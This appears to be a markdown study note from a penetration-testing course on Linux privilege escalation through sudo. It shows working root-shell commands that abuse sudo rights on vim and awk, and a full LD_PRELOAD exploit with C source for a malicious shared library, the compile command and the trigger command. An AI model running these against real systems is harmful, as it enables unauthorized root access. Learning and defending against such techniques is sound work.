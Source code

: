 # Escalation via Sudo

## Sudo Shell Escaping

- `sudo -l` will show us commands delegated to our user. See example of possible output below  
![image](https://user-images.githubusercontent.com/96747355/167295677-4b615420-f012-4bb7-992c-b03ab924f8b8.png)  
- With the result of the command we can then check out on [GTFOBins](https://gtfobins.github.io/) for comprehensive ways to escalate

### Vim

- [Vim on Gtfobins](https://gtfobins.github.io/gtfobins/vim/) the section of interest for us here is the following one:  
![image](https://user-images.githubusercontent.com/96747355/167295801-e9cab3c9-62e5-4a46-90f3-ff62498f4e57.png)  
- Let's try this command `sudo vim -c ':!/bin/sh'`
- It works right away  
![image](https://user-images.githubusercontent.com/96747355/167295851-cd5dd86e-3dc6-49b3-9c32-6846a32f857d.png)  

### awk

- [Awk on GTFOBins](https://gtfobins.github.io/gtfobins/awk/) the section of interest for us here is the following one:  
![image](https://user-images.githubusercontent.com/96747355/167295996-a55b8fce-b27f-421a-958a-18646b7c828d.png)  
- So let's try this `sudo awk 'BEGIN {system("/bin/sh")}'`
- It works  
![image](https://user-images.githubusercontent.com/96747355/167296030-dd82bef4-4640-4ded-8357-0b2f32ca9638.png)

## Resources

{% embed url="https://academy.tcm-sec.com/p/linux-privilege-escalation" %} Linux Privesc on TCM-Security Academy {% endembed %}

## Intended Functionality

### Example with Apache2

- `sudo -l` we should see this: `(root) NOPASSWD: /usr/sbin/apache2`
- *Note: There are no entry on GTFOBins about apache2 but Google can do the trick ;) We could type something like "sudo apache2 privilege escalation"*
- Then we find an [article](https://touhidshaikh.com/blog/2018/04/abusing-sudo-linux-privilege-escalation/) that mentions this command to let us view system files.

### Example with wget

- See [here](https://veteransec.org/hack-the-box-sunday-walkthrough/) an example with wget on veteransec's writeup of the HTB box called sunday.

## LD_PRELOAD

- `sudo -l` we should see something like this `env_keep+=LD_PRELOAD`
- We are going to preload a user specific share library before any other share libraries
- We need to write our malicious library that will privesc for us by changing our gid and uid to 0 (root). We put this code in a file named x.c
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
- now we need to compile our library with gcc `gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles`
- And now we need to set it as our user's preloaded library `sudo LD_PRELOAD=/tmp/x.so apache2`
- We should be root  
![image](https://user-images.githubusercontent.com/96747355/167297390-ce9c76ed-72c5-4bfb-bea9-9b380478cb9d.png)  

